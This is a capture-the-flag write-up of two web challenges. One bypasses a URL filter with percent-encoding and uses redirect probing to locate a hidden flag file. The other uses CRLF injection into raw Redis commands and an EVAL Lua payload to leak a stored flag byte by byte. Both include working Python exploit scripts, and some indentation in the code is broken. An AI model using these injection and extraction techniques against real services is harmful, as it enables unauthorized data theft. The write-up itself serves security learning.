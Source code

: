 ```yaml
---
title: "Alpaca Hack round 7- writeup"
date: "2024-12-01T00:00:00.000Z"
lang: EN
---
```


## ✅ Treasure Hunt (116pts 71solves)

### Overview

```javascript:index.js
app.use(express.static("public"));
```

The express server serves static files from the `public` folder. `flag.txt` is placed in a folder inside `public`, which is randomly created in the following way.

```Dockerfile:Dockerfile
RUN FLAG_PATH=./public/$(md5sum flag.txt | cut -c-32 | fold -w1 | paste -sd /)/f/l/a/g/./t/x/t \
 && mkdir -p $(dirname $FLAG_PATH) \
 && mv flag.txt $FLAG_PATH
```

The flag is located in a place something like

```
d/4/1/d/8/c/d/9/8/f/0/0/b/2/0/4/e/9/8/0/0/9/9/8/e/c/f/8/4/2/7/e/f/l/a/g/t/x/t
```

The goal of the challenge is to somehow identify the folder names. 

In addition, you have to somehow bypass the following WAF.

```javascript:index.js
app.use((req, res, next) => {
  res.type("text");
  if (/[flag]/.test(req.url)) {
    res.status(400).send(`Bad URL: ${req.url}`);
    return;
 }
  next();
});
```

This restriction prevents the use of `f`, `l`, `a`, or `g` in the URL. Since the path always ends with `f/l/a/g/t/x/t`, we have to somehow bypass this.

### Solution

Bypassing the URL restriction is quite simple: URL encoding. `req.url` doesn't automatically decode URL encoding, but the express uses a decoded URL to determine the route.

I used the [raw_request](https://gist.github.com/tepel-chen/230fdc4349f1244b303049446290c494) function I wrote since the python `request` module does not support URL-encoded paths.

Next, I wanted to determine whether the directory exists. Upon reviewing the serve-static source code, I discovered that [if a path without a trailing / corresponds to a directory, it automatically redirects to the URL with / appended](https://github.com/expressjs/serve-static/blob/e2bf828a6899e18969e522ddce304fec497b058f/index.js#L193).

### Full exploit

```python:solver.py
import requests
import raw_request

URL = "http://34.170.146.252:19843/"
# URL = "http://localhost:3000/"
EVIL = "https://tchenio.ngrok.io/"


s = requests.session()

cur = ""
while True:
    for c in "0123456789abcdef":
 r = raw_request(URL, strs=f"GET /{cur}%{hex(ord(c))[2:]} HTTP/1.1\r\nHost: localhost:3000\r\n\r\n")
        print(r.status_code)
        if r.status_code == 301:
 cur += "%" + hex(ord(c))[2:] + '/'
            break
    else:
        break
r = raw_request(URL, strs=f"GET /{cur}%6c/%61/%67/t/x/t HTTP/1.1\r\nHost: localhost:3000\r\n\r\n")
print(r.text)
```

## ✅ Alpaca Poll (146pts 42solves)

### Overview

The server provides a service that preserves some counters for animals. The application uses the Redis as its database. The counters are initialized as shown below, and the flag is also added to the database during initialization.

```javascript:db.js
function connect() {
    return new Promise(resolve => {
        const socket = net.connect('6379', 'localhost', () => {
            resolve(socket);
 });
 });
}

function send(socket, data) {
    console.info('[send]', JSON.stringify(data));
    socket.write(data);

    return new Promise(resolve => {
        socket.on('data', data => {
            console.info('[recv]', JSON.stringify(data.toString()));
            resolve(data.toString());
 })
 });
}
/* snap */
export async function init(flag) {
    const socket = await connect();

    let message = '';
    for (const animal of ANIMALS) {
        const votes = animal === 'alpaca' ? 10000 : Math.random() * 100 | 0;
        message += `SET ${animal} ${votes}\r\n`;
 }

    message += `SET flag ${flag}\r\n`; // please exfiltrate this

    await send(socket, message);
    socket.destroy();
}
```

You can increase the counter through the `/vote` endpoint.

```javascript:index.js
app.post('/vote', async (req, res) => {
    let animal = req.body.animal || 'alpaca';

    // animal must be a string
    animal = animal + '';
    // no injection, please
    animal = animal.replace('\r', '').replace('\n', '');

    try {
        return res.json({
            [animal]: await vote(animal)
 });
 } catch {
        return res.json({ error: 'something wrong' });
 }
});
```

```javascript:db.js
export async function vote(animal) {
    const socket = await connect();
    const message = `INCR ${animal}\r\n`;

    const reply = await send(socket, message);
    socket.destroy();

    return parseInt(reply.match(/:(\d+)/)[1], 10); // the format of the response is like `:23`, so this extracts only the number 
}
```

You can see that the queries are sent through a raw socket connection. The following line removes `\r` and `\n` from the input, aiming to prevent command injection.
```javascript:db.js
animal = animal.replace('\r', '').replace('\n', '');
```

Can we manipulate the query to run an arbitrary query to Redis?

### Solution

[`String.prototype.replace`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/String/replace) replaces only the first occurrence of the substring. (If you need to replace all occurrence, you need to use [`String.prototype.replaceAll](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/String/replaceAll).) Hence, you can inject `\r\n` by repeating it more than once.

You can use`GET flag` to query for the flag. However, you won't be able to see the content of the flag with `INCR dog\r\nGET flag\r\n` because the result of the query looks like this:

```
:74
$16
Alpaca{REDACTED}
```

The result of `reply.match(/:(\d+)/)[1]` will be `74`.

After some research on Redis commands, I found out that  [`EVAL`](https://redis.io/docs/latest/develop/interact/programmability/eval-intro/) can execute Lua script on the database. 

Inside the script, you can use the `redis.call` command to run any redis command. By combining Lua's `string.byte`, I can extract individual characters of the flag as their ASCII values. These values are then set as the counter for a specific key (e.g., dog). Repeating this process for each character position allows for reconstructing the entire flag.

### Final Exploit

```python:solver.py
import requests

# URL = "http://34.170.146.252:54728/"
URL = "http://localhost:3000/"
EVIL = "https://tchenio.ngrok.io/"

s = requests.session()
cur = "A"
while cur[-1] != "}":
 r = s.post(URL + "vote", data={
        "animal": f"\r\ndog\r\nEVAL 'return redis.call(\\'SET\\', \\'dog\\', string.byte(redis.call(\\'GET\\', \\'flag\\'),{len(cur) + 1}))' 0 "
 })
 cur += chr(int(r.text.split(":")[1][:-1])-1)
    print(cur)
```